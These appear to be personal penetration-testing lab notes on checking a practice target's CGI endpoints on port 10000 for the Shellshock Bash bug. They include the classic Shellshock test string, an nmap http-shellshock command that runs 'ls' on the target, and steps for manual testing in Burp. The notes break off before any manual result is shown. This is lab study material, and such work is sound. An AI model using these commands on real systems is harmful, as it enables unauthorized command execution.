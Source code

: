 ***
***
**SHELLSHOCK PORT 10000**

Upon reviewing Burp History, we come across a lot of `/cgi` endpoints

If cgi is relatively old, we may be able to exploit using the shellshock vulnerability
https://beaglesecurity.com/blog/vulnerability/shellshock-bash-bug.html

![[Pasted image 20240709162839.png]]
An attacker can send a specially crafted environment variable to a Bash-based application. This environment variable will contain a function definition that will be executed by Bash (Bash is a Command language interpreter). The function definition can contain any arbitrary command, which will be executed with the privileges of the user running the Bash-based application.

Example:

```
env x = '() { :;}; echo vuln' bash -c "echo test"
```


Let's see if NMAP has a script for this:
```
grep -inR shellshock /usr/share/nmap/scripts/*.nse
```
![[Pasted image 20240711195830.png]]

This may be worth pursuing!



Review Usage:
```
grep -i usage -C2 /usr/share/nmap/scripts/http-shellshock.nse
```
![[Pasted image 20240711200944.png]]



Attempted but no luck:
```
nmap -sV -p 10000 --script http-shellshock --script-args uri=https://10.10.10.7:10000/left.cgi,cmd=ls 10.10.10.7
```



We may have a false positive. Review the script details
```
vim /usr/share/nmap/scripts/http-shellshock.nse
```
![[Pasted image 20240711201145.png]]


Let's move to Burp and try manually running
Logout of the console and refresh
Send new GET request to Burp Repeater
![[Pasted image 20240711201513.png]]
